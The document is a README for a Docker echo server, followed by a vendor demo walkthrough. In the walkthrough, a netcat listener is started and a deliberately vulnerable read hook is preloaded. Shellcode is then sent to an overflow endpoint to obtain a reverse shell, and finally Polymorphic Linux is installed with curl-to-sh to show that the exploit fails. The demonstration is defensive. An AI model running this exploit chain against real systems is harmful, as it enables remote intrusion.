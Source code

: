 # node-echo-server
Simple node-based echo server

## Start
```
docker run -d --rm --name echo -p 8080:8080 polyverse/node-echo-server
```

## Stop
```
docker kill echo
```

## Interact
```
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh
node echo-server.js
```
---
# Polyverse Polymorphic Linux

## 1 Setup Listener for Reverse Shell

### 1.1: Shell-1: Start a listener for the remote shell to connect to
```
nc -kl 5555
```

## 2: Start Server and install readhook

### 2.1: Shell-2: Start the container with an interactive shell
```
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh
```

### 2.2: Shell-2: Install readhook
```
apk update && apk add curl wget ca-certificates && update-ca-certificates
wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/jenkins/basehook.so
wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/jenkins/fullhook.so
```

### 2.3: Shell-2: Run the echo-server with readhook in front of libc
```
LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node /src/echo-server.js
```

### 2.3: Shell-3: Test that the echo-server is running as expected
```
curl localhost:8080/echo-this-line-of-text
echo-this-line-of-text
```

## 3: Generate Shell-Code

### 3.1: Shell-3: Generate the shell-code needed to "phone-home" to the listener on Shell-1
```
export shellCode=$(curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555)
```

### 3.2: Shell-3: Send the shell-code to the OVERFLOW endpoint to check that it works.
```
curl localhost:8080/$shellCode
```

### 3.3: Shell-1: Check that the overflow resulted in a remote shell
```
ls && whoami && exit
```

## 4: Install Polyverse Polymorphic Linux

### 4.1: Shell-2: Add curl and Polyverse Distros
```
apk update && apk add curl wget ca-certificates && update-ca-certificates
curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
```

### 4.2: Shell-2: Update packages with Polymorphic Linux packages
```
sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
```

### 4.3: Shell-2: Re-run the echo-server with basehook.so (only)

LD_PRELOAD=/tmp/basehook.so node /src/echo-server.js
```

### 4.4: Shell-3: Test the shell-code with Polymorphic Linux
```
curl localhost:8080/$shellCode
```

### 4.5: Shell 1: Confirm that nobody phoned-home to the listener

### 4.6: Shell 2: Confirm that node terminated abnormally
